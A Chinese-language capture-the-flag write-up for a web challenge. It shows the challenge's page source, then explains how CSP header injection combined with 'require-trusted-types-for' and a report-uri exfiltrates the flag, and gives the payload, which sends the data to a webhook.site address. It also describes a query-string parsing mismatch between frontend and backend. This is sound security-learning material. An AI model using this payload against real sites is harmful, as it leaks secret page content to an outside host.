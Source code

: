 ```html
</body>
<script>
    const code = new URL(window.location.href).searchParams.get('code');
    if (code) {
        const frame = document.createElement('iframe');
        frame.srcdoc = code;
        frame.sandbox = '';
        frame.width = '100%';
        document.getElementById('content').appendChild(frame);
        document.getElementById('code').value = code; 
    }

    const flag = localStorage.getItem('flag') ?? "flag{test_flag}";
    document.getElementById('flag').innerHTML = `<h1>${flag}</h1>`;
  </script>
</html>
```

后端可以利用 img src 属性来注入任意 csp 头, 但是只能往后面加, 不能修改之前已经设置过的内容

例如 `default-src none; default-src *` 这种只有第一次设置的才会生效

前端的 iframe sandbox 基本不可能绕过 (否则就是一个浏览器 cve), css 想要跨 iframe 渲染的话也必须得有 javascript 参与...

题目的思路是利用 csp `report-uri` 配合 `require-trusted-types-for` 外带 flag

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only)

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri)

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/require-trusted-types-for](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/require-trusted-types-for)

[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/trusted-types](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/trusted-types)

https://cloud.tencent.com/developer/article/1625155

csp 设置 `require-trusted-types-for` 之后会拦截 `document.innerHTML = 'xxx'` 这种不安全的行为, 而 `report-uri` 会将违反 csp 规则的相关信息以 json 形式 post 发送到指定的网址, 利用 json 中的 `script-sample` 就可以外带 flag

payload 如下

```html
<img src="*; require-trusted-types-for 'script'; report-uri https://webhook.site/c11276d8-0c36-471a-9943-0bdc425ae414"/>
```

最后还需要用到前后端解析 querystring 的差异, 例如:

```
/?code=123&code=456&code=787
```

后端使用 `req.quey.code` 得到的是最后一个结果, 而前端使用 `searchParams.get('code')` 得到的是第一个结果

